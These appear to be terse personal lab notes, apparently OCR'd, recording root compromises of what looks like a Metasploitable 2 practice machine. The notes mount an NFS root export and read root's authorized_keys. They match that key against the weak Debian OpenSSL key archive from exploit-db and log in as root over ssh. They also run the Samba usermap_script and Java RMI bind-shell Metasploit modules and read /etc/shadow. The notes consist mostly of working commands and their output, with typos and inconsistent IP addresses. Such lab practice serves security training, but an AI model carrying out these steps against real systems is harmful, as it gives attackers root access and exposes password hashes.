   sudo mount -t nfs 192.168.130.134:/ /tmp/metasp2 
  
cat /tmp/metasp2/root/.ssh/authorized_keys
  
  copy the ssh_rsa key 
  
  search exploit database for openssl 
 
 download  the exploit 5622.tar.bz2

https://www.exploit-db.com/exploits/5720
  
 tar -jxvf 5622.tar.bz2
 
 grep -lr AAAAB3NzaC1yc2EAAAABIwAAAQEApmGJFZNl0ibMNALQx7M6sGGoi4KNmj6PVxpbpG70lShHQqldJkcteZZdPFSbW76IUiPR0Oh+WBV0x1c6iPL/0zUYFHyFKAz1e6/5teoweG1jr2qOffdomVhvXXvSjGaSFwwOYB8R0QxsOWWTQTYSeBa66X6e777GVkHCDLYgZSo8wWr5JXln/Tw7XotowHr8FEGvw2zW1krU3Zo9Bzp0e0ac2U+qUGIzIu/WwgztLZs5/D9IyhtRWocyQPE+kcP+Jz2mt4y1uA73KqoXfdw5oGUkxdFo9f1nu2OwkjOc+Wv8Vw7bwkf+1RgiOMgiJ5cCs4WocyVxsXovcNnbALTp3w *.pub
 
 now we got our key 57c3115d77c56390332dc5c49978627a-5429.pub

 attempt to connect as a root
 
 ssh -i 57c3115d77c56390332dc5c49978627a-5429 root@192.168.1.9 
 
 whoami >> root
  
  
 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
      445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
----
 saerching exploit database for Samba getting me MSF module that returns a root shell 
 > use exploit/multi/samba/usermap_script
> set RHOST 192.168.1.3
> exploit 

 $whoami 

 root 
 sudo/etc/shadow :D 
  
  
  512/tcp  open  exec        netkit-rsh rexecd
----
  couldn't veify weather the service is vulnarable 
  
  1099/tcp open  java-rmi    GNU Classpath grmiregi
  ----
  
 search java rmi
  
  use 3
  
  set lhost 192.168.1.2
  
  set Rhost 192.168.1.9
  
  set payload payload/java/shell/bind_tcp
  
  run 
  
  whoami >> root
  